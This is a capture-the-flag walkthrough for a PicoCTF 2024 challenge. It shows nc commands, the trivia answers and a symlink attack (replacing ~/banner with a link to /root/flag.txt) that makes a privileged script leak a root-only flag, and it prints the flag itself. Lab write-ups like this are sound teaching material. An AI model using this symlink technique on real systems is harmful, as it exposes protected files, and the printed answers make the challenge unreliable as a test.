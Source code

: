 # dont-you-love-banners – PicoCTF 2024 (Cryptography)

## Challenge Description:
We’re given access to two ports on a remote server. One shows a banner with a password, and the second one asks for that password, then gives us shell access. The goal is to obtain the flag.

---

## Solution Summary:

### Step 1 – Get the password
Run this in your terminal:

nc tethys.picoctf.net [PORT1]

You will receive a message like:
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
Copy the password from that message.

### Step 2 – Access the second service
Now connect to the second port:

nc tethys.picoctf.net [PORT2]
You’ll be asked:

Password: → Enter the one you got above.

Top cyber security conference? → DEF CON

The first hacker? → JOHN DRAPER
If all answers are correct, you'll get a shell.

### Step 3 – Explore the system
You’ll be logged in as user player. Try:

ls
cat banner
cat text

In /root there is a flag.txt, but you can’t read it directly.

### Step 4 – Exploit symlink vulnerability
There’s a script that reads the file ~/banner.

We can trick it into reading flag.txt by creating a symbolic link:
rm banner
ln -s /root/flag.txt banner
exit
Reconnect again using:

nc tethys.picoctf.net [PORT2]
Now the flag will be printed in the “banner”!

# Flag
The banner will now show something like:
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_done}

------------------
# Notes:
This challenge teaches how symlinks can be abused in insecure scripts. A symbolic link (ln -s) allows you to redirect a file reference to another file, and if a privileged script reads it, it might unintentionally expose sensitive.

